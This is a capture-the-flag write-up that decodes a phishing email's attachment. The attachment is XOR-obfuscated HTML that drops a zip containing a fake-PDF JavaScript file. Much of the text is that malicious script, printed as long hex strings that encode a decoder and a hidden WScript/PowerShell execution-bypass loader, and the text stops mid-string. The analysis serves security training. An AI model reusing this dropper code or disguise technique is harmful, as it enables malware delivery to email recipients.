










# WRITE_UP #

## Hypercraft ##

### 1. Analysis ###
* **Given:** a file named `hypercraft.eml`
* **Description:** This email seems to have come from one of our agents, Axel Knight, but Axel has been missing for weeks, and we believe him to be compromised. The email claims to have information that could be vital to our winning this war, but before we use it, we want to make sure it is safe to open. Analyze the given email and see if it's real, or if it's just the Arodorians trying to phish us, and find the flag.
* **Hints:**   
    * No hints are given

### 2. Investigation ###
First, opening the `.eml` file by VSCode I could get the email content, inside it's a base64 encoded attachment:



Using CyberChef I could decode the string which turned out to be an obfuscated html script:



```html
<!DOCTYPE html>
<html lang="en-us">
<head>
<title></title>
</head>
<body>
	<main class="bwkytcnl" id="jzasjnpc" data="JipLdyQsNjQqdXM/NC47Bwt0KksAV0UNPzg0J3IzKFcyKy8YcjEcKi9VNDI2KXAyOCx/KTA/ZBB9MihBW19qHQILC1kJHyt5UTwyHABcP0whLj8INhQ6BG4CAwQXWyQiNCIidiBiVAgyJDcKBTErUgJ5Ajk2PWJ3IDIvIis7AS4yLnpHEAoTDCFxXyU/ChQSYEo2AD0MQAAlCwcMBB80dUZNJwd+BzsITgALBg0FRhU/S0g8EjlyNkNOXlJ8N20qIA5Xdj0wCwJ3ElsUBkJEZxtANk03MQ1YdwxdElstORobRSxDNAxvQDAOWxQjRVZVBFwfGVwCSQBWFgUVCB0UWysoTn1TXAVaIBtoID4OMkZgdxVOAF4GSDoQQw4CHTdbOxIYXAE9Dh8iChwwAhlFVwYtUEo1HFkNBiMNfxZaVFI4KTdHHxsFX3s+FRFbdSQaIQlOTB4YGyMGLW5ERhMqHh5KG18+V...Iyw9NywiJkAnCBkrYQcEMh0iKCUzKzIueXIkIQQxKnVwJyYbIDB5czI4MHRwOykgMxNyMCx4BhUrNnIyKio=">

	
	</main>
	<div id='begjwbvi' class='gtbuphzb' data="so83fnguk42vuluw82syq55zhqqf3qm9sznw3skkxdfbcj2fjy1zbi6t4wn89m8kafg1kvi04dppc1q5xye8zzxo4k6utjrwwsc2f59khfmzkvycg8qxwl36asncitbj"></div>	
	<div id='ridfieba' class='ttbhpcwi'></div>
<script>
....
```

That's a long script with lots of comment to obfuscate, so I will not copy all of it here, but there are some interestings functions:

```js
function pbmbiaan(jxzaxgsg,togganyw) {
    jxzaxgsg = atob(jxzaxgsg);
    var tckowqrr = ''
    for(var wszpfujv=0; wszpfujv<jxzaxgsg.length; wszpfujv++) {

        tckowqrr += afegnsku(jxzaxgsg[wwzaligy](wszpfujv) ^ togganyw[wszpfujv%togganyw.length][wwzaligy](0))
    }
    return tckowqrr;
}
``` 
This function is a xor function to xor each bytes of a string with the key by a for loop. I wrote a small python script to mimic the function:

```python
import base64

def decode_xor_base64(ciphertext_b64: str, key: str) -> str:
    decoded_bytes = base64.b64decode(ciphertext_b64)
    key_bytes = key.encode('utf-8')    
    xor_result = bytearray()
    for i in range(len(decoded_bytes)):
        xor_byte = decoded_bytes[i] ^ key_bytes[i % len(key_bytes)]
        xor_result.append(xor_byte)
        
    return xor_result.decode('utf-8', errors='ignore')

if __name__ == "__main__":
    key = "example_key"
    encrypted = "example_encrypted"
    decrypted = decode_xor_base64(encrypted, key)
    print(f"Result: {decrypted}")
```

Later, this `pbmbiaan` function is called alot, you can try to decode all of them, but the main star is:

```js
var qjyfawbg = pbmbiaan(document.getElementById('jzasjnpc').getAttribute(pbmbiaan('ExACBA==','wqve')),document.getElementById("begjwbvi").getAttribute(pbmbiaan('ExACBA==','wqve')));
```

Using the script above, I could decode this line to:

```js
var qjyfawbg = pbmbiaan(document.getElementById('jzasjnpc').getAttribute('data'), document.getElementById('begjwbvi').getAttribute('data'));
```

The script assign the result after xoring the data attribute of id `jzasjnpc` with the data attribute of id `begjwbvi` acts as the key to the variable `qjyfawbg`:



Using the script to see the payload of that variable, I got another base64 string:



Using CyberChef to decode, it turned out to be a `.zip` file:



I saved the file then unzipped, inside, there is another obfuscated javascript named `[TOP SECRET] Arodorian Hypercraft.pdf.js` which also contains comments act as obfuscator, after removing the junk comments I got this beautiful script:

```js
var yqybdscl = "7868687774617263616465707a203d2066756e6374696f6e28737561646b6c737729207b0a766172207477676f637466763d7b7d3b0a76617220716879706f6465726d6963686666203d2037343134323b0a766172207679616669736f6674636f7665727161203d2066616c73653b0a7661722061714d6f6e73616e746f6f203d2022756e646566696e6564223b0a76617220716c7579706172746974696f6e73776c203d2066616c73653b0a766172207a7762776f70616d70686c65746b7a6361203d2066616c73653b0a7661722069696269677271623b0a766172206b79696569746865726f203d206e756c6c3b0a7661722078676c697374656e69636c203d206e756c6c3b0a766172207473726a74656d706c656c72687a203d2022756e646566696e6564223b0a766172206d64696a7764657461636877203d206e756c6c3b0a766172207967686e706c6174797075737a667776203d2036303136333b0a7661722067717073616c74796f656d203d206e756c6c3b0a7661722076626173656d616e6f7a626375203d2033393239363b0a766172207473797068696c69746963646463203d20747275653b0a7661722078756c71646975726e616c64203d2022756e646566696e6564223b0a766172206c6461726c7071703d303b0a766172206c4d617279627769203d206e756c6c3b0a7661722079626d636f75706c65746a737170203d206e756c6c3b0a766172206e756d7369747561746570203d206e756c6c3b0a766172206b636465627474203d20747275653b0a76617220776a6e6174696f6e776964656675726f203d2022756e646566696e6564223b0a766172206e486172636f75727461203d20747275653b0a766172206d7672686f6f667072696e746368203d206e756c6c3b0a76617220797062766c477265656e6272696172666770203d2022756e646566696e6564223b0a76617220667a62756c626c65746f76667366203d206e756c6c3b0a76617220616970797774726f3b0a7661722077695a656c6c65726261636875203d2035323039333b0a7661722077686279696675727a6568727263203d2022756e646566696e6564223b0a766172206c6e6e736b70616e746f6d696d6963726a203d2066616c73653b0a766172206d796f6a6f7962746f203d206e756c6c3b0a766172207162706a7a696c6c69746572616379787a7470203d206e756c6c3b0a766172206d71667063697672667a203d206e756c6c3b0a766172207969426168616d6168677979203d2066616c73653b0a76617220706c7064617070657262203d20747275653b0a76617220796d70726f626f736365736b79203d2066616c73653b0a766172206873666d6f6c766f3b0a766172207870726f74656f6c797469636279203d2032313837343b0a766172206279766f746976656870203d206e756c6c3b0a766172207274696e636f6e636c75736976656e74203d20747275653b0a766172206a654c696767657474203d20747275653b0a76617220696152656e61756c746a6e203d20747275653b0a76617220696d766270617373656e67657263203d2066616c73653b0a76617220654d696e736b79726f65203d206e756c6c3b0a766172207664726175676874756d203d206e756c6c3b0a766172206c6b6362706570723d303b0a766172206c7077726563656976656565626767203d2066616c73653b0a7661722065726361726162616f6d203d20747275653b0a76617220786f6c6371676a723b0a766172206d6a6769697966757770203d2022756e646566696e6564223b0a76617220776e79666c6972746174696f757371736f69203d2031353537343b0a76617220657564747a536b7965707a7465203d2038313938383b0a76617220766a63617363656e7471203d2066616c73653b0a76617220657175696e74657373656e6365746c203d20747275653b0a766172207273746b636e696f3d27273b0a7661722070676a757469636b6c6576203d20383738353b0a766172207467656e656c646e203d2034373634383b0a76617220756c626b7467696d203d2066616c73653b0a76617220656e73706e6162723d537472696e672e66726f6d43686172436f64653b0a7661722063686e6d6a73706c6f746368726473203d2022756e646566696e6564223b0a766172206469646f64656361686564726f6e70203d2066616c73653b0a76617220727078696f64696e617465627875203d2066616c73653b0a7661722063676f706d797a753d737561646b6c73772e6c656e6774683b0a766172206878646172676f6e626a6a203d2022756e646566696e6564223b0a766172206477616c6c65746f666e203d206e756c6c3b0a766172207868717468706f69736f6e6f757378203d20747275653b0a7661722076746c656164656e6274203d2036343931373b0a7661722075766974696c756f203d20224142434445464748494a4b4c4d4e4f50515253223b0a7661722078636f6e76756c7365747669636d203d2022756e646566696e6564223b0a766172206e636f77736c69706377203d2066616c73653b0a76617220696f79736861646f77796976203d206e756c6c3b0a766172207a616f676c6f6d6c676a777a203d20747275653b0a76617220636e6f6f7175697068203d2039383834323b0a76617220666275617363726962656c6b6d686a203d2039383139393b0a766172206a79696e6669726d6f667471203d2022756e646566696e6564223b0a76617220616e7175656e6977203d2075766974696c756f202b20225455565758595a6162636465666768696a6b6c6d6e6f707172737475223b0a766172206c6c6f5769747467656e737465696e787368203d2066616c73653b0a766172206a74706e7265646275646d6f656d75203d2031313938373b0a7661722062737667616e7461676f6e69736d66203d206e756c6c3b0a76617220656472637162617373697a6d203d2033393137313b0a766172207a70696772696d7965756d203d20747275653b0a766172207473616e6570203d2066616c73653b0a766172206b786865646765626874203d20747275653b0a76617220657667696c626572747577203d20747275653b0a76617220686661696e64656c6963617465757a7061203d2022756e646566696e6564223b0a76617220646572787968627a203d20616e7175656e6977202b2022767778797a303132333435363738392b2f223b0a766172206a4775726b686177203d2066616c73653b0a76617220756f6e746f67656e796e7476203d20747275653b0a766172206e63686864656c6963616379796168756a203d2022756e646566696e6564223b0a766172206f6e7567537465656c6573203d2022756e646566696e6564223b0a666f722869696269677271623d303b69696269677271623c36343b69696269677271622b2b297b0a097477676f637466765b646572787968627a2e636861724174286969626967727162295d3d69696269677271623b0a766172206a6f69657277617368796962203d20747275653b0a766172207a6c6e7361";
var zuloqgnm = yqybdscl + "66656b656570696e677272636b203d2066616c73653b0a766172207871716c6c6f6e67686f726e7a6a70203d206e756c6c3b0a766172207a646c7073696e6a656374626d203d2066616c73653b0a7d0a776c6c69796b687a203d20383b0a766172207661736b766578766767203d206e756c6c3b0a766172206b676271616c6c6f6361626c657774203d2035353831393b0a766172206268627564726564776f6f64646e7969203d2022756e646566696e6564223b0a766172206c7970696c6966656d203d20747275653b0a76617220717a61726f626974756172797a756d6d62203d2066616c73653b0a787671656868666a203d203235353b0a7661722069707363757274736579746e203d2066616c73653b0a7661722072436f7065726e6963616e646977203d2022756e646566696e6564223b0a6b6474756a666963203d20787671656868666a2d3235333b0a76617220664272656e64616e6b7064203d2036323038373b0a766172206e7672696f74656c6574797065777269746569203d20747275653b0a76617220757668656d6974746572616965203d206e756c6c3b0a76617220676e617669676174657971203d20747275653b0a766172206f737a7065726f73696f6e736f203d20747275653b0a76617220776b706174657262203d2022756e646566696e6564223b0a76617220786b6d7262756c6765746f68203d2031363936343b0a76617220646963726a706f7373656f203d2066616c73653b0a63706e7965686d69203d20776c6c69796b687a2d6b6474756a6669633b0a766172206a6b76657363757272796c68203d206e756c6c3b0a7661722074676172746963686f6b656d63717a65203d2031303237363b0a766172206d73737671203d2066616c73653b0a76617220726a79616b627269676164656c6471616e203d20747275653b0a76617220676b626f696e74656c6c6967656e7473696177203d20747275653b0a766172207773637463746573746963756c6172687668203d2022756e646566696e6564223b0a76617220656b6c79636f6e766f796a203d20747275653b0a666f72286873666d6f6c766f3d303b6873666d6f6c766f3c63676f706d797a753b6873666d6f6c766f2b2b297b0a616970797774726f3d7477676f637466765b737561646b6c73772e636861724174286873666d6f6c766f295d3b0a76617220767972786364656669616e7470203d2035353436313b0a766172206275746970746172706f6e776278203d20747275653b0a6c6461726c7071703d286c6461726c7071703c3c63706e7965686d69292b616970797774726f3b6c6b6362706570722b3d63706e7965686d693b0a76617220637177736c69636566696879203d206e756c6c3b0a766172207a7868696b73686170657173746f203d2035373732373b0a766172207a6e69706f6c6974696369616e70203d2066616c73653b0a766172206679696772616e647374616e647569706b61203d2022756e646566696e6564223b0a7768696c65286c6b6362706570723e3d776c6c69796b687a297b0a2828786f6c6371676a723d286c6461726c7071703e3e3e286c6b6362706570722d3d776c6c69796b687a292926787671656868666a297c7c286873666d6f6c766f3c2863676f706d797a752d6b6474756a6669632929292626287273746b636e696f2b3d656e73706e61627228786f6c6371676a7229293b0a766172207a6a6c69766567203d2022756e646566696e6564223b0a766172206570726f66697465657263756b66203d2039393038333b0a76617220687374616e7a6163203d20363737373b0a76617220787570636f6e63726574656b7972787a203d2066616c73653b0a7661722064616e65627461636b6c656e203d2033313139333b0a7661722062786b78666172696e616a75203d20747275653b0a766172207a67636f7074696d756d71203d20747275653b0a76617220616a65707a666c6f746174696f6e72203d2066616c73653b0a7d0a7d0a72657475726e207273746b636e696f3b0a76617220656a734272616e646f6e76203d2022756e646566696e6564223b0a766172206676756f70616e69636b796262647373203d2022756e646566696e6564223b0a7d3b0a766172207564656e6f74657477203d2022756e646566696e6564223b0a766172207167757068656e6f6d656e6f6e7463203d2031313037353b0a76617220666c696373656469626c656367756364203d20747275653b0a766172206e7772736162626174686b6461203d2066616c73653b0a766172206b4d6164646f786f71203d2066616c73653b0a7661722076627565617277696761657379203d206e756c6c3b0a76617220767a74486f6e6475726173626c203d2066616c73653b0a766172206a73707570726f746f706c61736d7369203d20747275653b0a766172206b6543617274686167656466203d20303b0a76617220616f636c7377696e6761626c65686874203d2066616c73653b0a76617220676e50696e736b7966647264203d2066616c73653b0a766172206a676c617373696e656e6d6a7975203d20747275653b0a766172206b666d6465666f726d6174696f6e70736862203d2066616c73653b0a76617220756c6f66736875746f757466203d2066616c73653b0a76617220796a6465646e7977203d206e6577204461746528293b0a766172206771736c7572696461797665203d2039313533373b0a766172206975757076696365726f79637a64646f203d2037373134343b0a7661722065726c746f77746168203d20747275653b0a766172207476627869686561706b737270203d2033363838353b0a766172206e647a686561727472656e64696e676d73203d2066616c73653b0a76617220676976674d6164616761736361727761203d20747275653b0a7661722061746f6a71707671203d20225957747061584e78596d4e78656d4a6c5a335630615735306147467362324e3559334235646d706c65474e6b63574676645778765a58707165574a7a6432686c613246325a5731795a57686a5a484e6965484a736232566b656d3135626d687a656d646e5a33423162584e76616d3976646e467361584272596e5276635770716132567962475272626d746d5a6d707a626d566a64335a69645870356333467564327476615752696133496856334e6a636d6c776443355461475673624346516233646c556c4e6f5257784d494331465745566a56534167596e6c5151584e7a494341674943644a5258676f546b56584c573943536d56445643416755316c7a5647564e4c6d6c504c6b4e50625842535a584e54615739754c6d52465a6b78685647567a64464a6c5157306f4946745465564e555a573075535538756257564e54334a5a553352535a5546745853426259323975646d5679644630364f6b5a796232314359584e6c4e6a525464484a70626d636f4a796471566d59335969744b535556324e546b76623239584e4852685a304a4a4e544e4963585655656d747257564671595646435258646e5458706b55303435515646554e48646f64476472643068514c7a637862474e6b4d6a56744f5563354d47686854337031635845355a5551315a455a324b3274564d6d7848656b6b7a53317053656e5a4a5345645959576c7757557772626d3432646c4268616d784e613078725a6e5a784e305a69546d4933626b3132626b785a566e63764e7a6874526d5a5062564a465756645a644841324e325a7a627a5a3062335a5a646a5a544f546732616e5a223b0a766172206f6e686269726477617463686c7978203d2022756e646566696e6564223b0a766172206c69706d626578706f6e656e74696174657a6f6f6a77203d2034343934313b0a7661722074657863756c7061746f727965203d20747275653b0a76617220706b746a7a626f6e616e7a61726e697365203d206e756c6c3b0a76617220726b7a6465617274686d65726475203d20747275653b0a7661722073766d6e6179786f203d2061746f6a71707671202b20224f556d524861464d334d6b354d523074734e79733551326c51516b357055474934545442";
var eplicmqe = zuloqgnm + "46536d745a5158687153555a72633052324c315653546d3476655777776258417a615768444e455172616d74345646426e62324e7359546b725632646b563159325a6b3575546d5a764f54464c646e644e556b4e78646a4258566d684f57573176646d396b55334e6d56335a73616c46684c3056576255354f553259355631647862553143546c63305255785763555645636b705062334e77655863766432744a51304e764f445a44546a4a7354486c785a6c70746443394664555a354f455254556a49785a564a354b7a5a6b636d78366233637a526a4a6d4c3234345358566b54444a574e54646f4e33705a5a6e6c4b636e68586431706e52564e32526a6c4d636d4a48566a4e4f4e57646d6545513552545a595a554a55596d303062466f7864446b79624535746431563262326f7853475271646b3552656b56366131686a524641346355467954473158626c5a3252444a3662324e495931684a4f556c75536e5a3454466476525531444e5531715a6e4a576455686965564e43614556686558557a5a79395954577069516c4e4753574d7862316c694d4731304e306730615849764f57394d5956553353556777576a6734516e4a76533034784e454e4f517a6779576c566c526b383564476f7a4d6b354c566b5a715745786f5179746b516a5257534751316379395154544e5a623077784d444e564f48704e625441306230686b624849724c30314e556b686b62464a345547394a5a6c5a59596e6c4c646a644661475678614852494e303435526a564e636b5a5a636d746f4c326b795330396c64485a57626a5232636b677a63475a495533644c51575246524739466556645753